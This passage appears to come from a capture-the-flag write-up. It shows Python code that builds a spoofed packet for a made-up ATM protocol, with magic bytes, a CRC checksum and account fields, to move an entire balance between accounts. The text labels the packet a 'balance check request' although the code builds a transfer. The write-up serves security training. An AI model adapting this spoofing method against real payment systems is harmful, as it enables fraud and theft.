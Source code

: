 This should return token2, which is `31b38efaf179fe25` in this example, the answer to question 2. 

![2-solve.py](./2-solve.py)

## Question 3

*Craft a spoofed packet to the ATM server appearing to come from the ATM client (`10.2.2.50`) to transfer all of the money from account `1869589436` to account `1320571932`*

1. Use the same method from Question 2 to obtain the account balance for `1869589436`, which is 5068.

2. Follow the packet specification provided to create the binary payload for the balance check request

```py
MAGIC_BYTES = 0x3fa95c1d
CRC_INIT = 0xFFFF
CRC_POLYNOMIAL = 0xA001

SRC_ACCOUNT = 1869589436
DST_ACCOUNT = 1320571932
AMOUNT = 506800

TRANSFER_MONEY_REQUEST = 4

def calculate_checksum(data: bytes) -> int:
  crc = CRC_INIT
  for byte in data:
    crc ^= byte
    for _ in range(8):
      if crc & 1:
        crc = (crc >> 1) ^ CRC_POLYNOMIAL
      else:
        crc >>= 1
  return crc

def create_packet() -> bytes:
  # Transfer Money Payload
  payload = SRC_ACCOUNT.to_bytes(4, 'big')
  payload += DST_ACCOUNT.to_bytes(4, 'big')
  payload += AMOUNT.to_bytes(4, 'big')

  # Magic bytes
  byte_array = MAGIC_BYTES.to_bytes(4, 'big')

  # Sequence Number
  byte_array += (0).to_bytes(4, 'big')

  # Timestamp
  byte_array += (0).to_bytes(8, 'big')
  
  # Type
  byte_array += TRANSFER_MONEY_REQUEST.to_bytes(1, 'big')

  # Length
  byte_array += (len(payload)).to_bytes(4, 'big')

  # Checksum
  byte_array += calculate_checksum(payload).to_bytes(2, 'big')

  # Payload
  byte_array += payload
  return byte_array
```